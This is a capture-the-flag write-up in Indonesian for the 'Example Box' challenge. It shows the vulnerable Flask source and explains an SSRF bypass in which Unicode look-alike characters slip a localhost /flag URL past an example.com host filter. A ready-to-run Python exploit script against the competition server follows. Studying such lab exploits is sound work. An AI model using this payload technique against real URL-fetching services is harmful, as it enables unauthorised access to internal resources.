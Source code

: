 # Cyber Jawara International - Example Box - Writeup

Diberikan sebuah web yang bisa melakukan fetch ke url tertentu, namun host harus `example.com` dan schema harus `http`, dan path harus `/`, terdapat kerentanan SSRF pada challenge ini, namun kita harus bisa melakukan bypass yang mana host harus `example.com`, dan menggantinya dengan `localhost/flag`, untuk mendapatkan flag

## Source Code

Diberikan source code untuk challenge ini sebagai berikut
```python
from flask import Flask, abort, render_template, request, Response
from re import sub
from unidecode import unidecode
from urllib3.util import parse_url
import requests

app = Flask(__name__)

allowed_hostname = ["example.com"]
allowed_path = ["", "/"]
fallback = "http://example.com/"
cache = {}

def normalize(token):
    if token == None:
        token = ""
    return sub(r'\s+', '', unidecode(str(token)))

def filter_url(url):
    parsed_url = parse_url(url)
    scheme = normalize(parsed_url.scheme)
    host = normalize(parsed_url.host)
    path = normalize(parsed_url.path)
    filtered_url = url
    print(f'\nscheme url {scheme}')
    print(f'host url {host}')
    print(f'path url {path}')
    if not scheme.startswith('http'):
        print('\nfilter http')
        filtered_url = fallback
    if not host in allowed_hostname:
        print('filter host')
        filtered_url = fallback
    if not path in allowed_path:
        print('filter path')
        filtered_url = fallback
    return normalize(filtered_url)

@app.route('/', methods=['GET', 'POST'])
def index():
    url = request.form.get('url', '')
    return render_template('index.html', url=url)

@app.route('/fetch_url')
def fetch_url():
    url = request.args.get('url')
    filtered_url = filter_url(url)
    try:
        if filtered_url in cache:
            response = cache[filtered_url]
            print('\nif pertama')
            print(f'filtered url {filtered_url}')
        else:
            response = requests.get(filtered_url)
            cache[filtered_url] = response
            print('\nmasuk else')
            print(f'filtered url {filtered_url}')
        print(response.headers.get('Content-Type'))
        return Response(response.content,
                        status=response.status_code,
                        content_type=response.headers.get('Content-Type'))
    except requests.exceptions.RequestException as e:
        return f"Error fetching the URL: {e}", 500

@app.route('/flag')
def flag():
    if request.remote_addr != '127.0.0.1':
        abort(403)
    with open('/flag.txt', 'r') as flag:
        return flag.read()

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=20002)
```

Pada kode diatas `/flag` hanya bisa diakses oleh localhost, dan terdapat filter url, yang mana host haruslah `example.com`, schema haruslah `http`, dan path harus `/` atau kosong.

pada challenge ini hampir mustahil untuk melakukan SSRF karena banyak nya filter yang mana mengharuskan host `example.com`

## Payload

Setelah explorasi lebih lanjut dicoba melakukan SSRF dengan bantuan unicode berikut gambarannya

```bash
http://127.0.0.1:20002/flag?@example.com
```

pada payload diatas web app akan mengenali example.com sebagai host, dan akan melakukan redirect ke halaman example.com, dikarenakan adanya @ pada awalannya. kita sudah berhasil melakukan bypass filter `host`.

namun tantangan selanjutnya adalah untuk melakukan disable redirect dan mengarahkan web app untuk melakukan fetch `127.0.0.1` namun host tetap `example.com`

kita bisa melakukan encoding ke unicode untuk karakter `/` dan `?`, ini harus dilakukan dengan tujuan web appa akan mengenali url sebagai berikut

```
protocol://username:password@host:port/path?query#fragment
```

untuk `/` ktia bisa menggantinya dengan Division Slash (U+2215)
untuk `?` kita bisa menggantinya dengan Small Question Mark (U+FE56)

berikut payload akhirnya

```bash
http://127.0.0.1:20002∕flag﹖@example.com
```

## Automated Exploit
```python
import requests

# URL endpoint
endpoint = "http://68.183.177.211:20002/fetch_url"  # Pastikan URL ini benar, sesuai dengan host server Anda

# URL yang ingin di-fetch
url_to_fetch = "http://127.0.0.1:20002⁄flag﹖@example.com"  # Gantilah dengan URL yang ingin Anda request

# Membuat request ke endpoint dengan URL sebagai parameter
try:
    response = requests.get(endpoint, params={'url': url_to_fetch})
    if response.status_code == 200:
        print("Content-Type:", response.headers['Content-Type'])
        print("Response Content:", response.text)
    else:
        print(f"Failed to fetch URL. Status code: {response.status_code}")
        print("Error message:", response.text)
except requests.exceptions.RequestException as e:
    print("An error occurred:", e)
```
